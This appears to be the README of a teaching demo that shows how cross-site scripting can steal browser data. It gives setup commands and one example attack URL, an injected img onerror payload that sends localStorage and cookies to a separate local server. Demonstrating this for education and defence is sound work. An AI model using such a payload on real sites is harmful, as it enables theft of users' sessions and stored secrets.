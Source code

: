 ## How to use

### Server

In the project directory server, you can run:

#### `npm start`

The server listens on port 3001


### Client

In the project directory client, you can run:

#### `npm start`

Open [http://localhost:3000](http://localhost:3000) to view it in the browser.

Example attack:
```
http://localhost:3000/?text=<img src onerror="fetch(`http://localhost:3001?localStorage=${JSON.stringify(localStorage)}&cookie=${JSON.stringify(document.cookie)}`).then(data => data.json()).then(data => console.log('server response', data))" />
```

Check console for the response from server

## Conclusion

Both localstorage and cookies are vulnerable in about the same severity. Be careful what data you store in them :)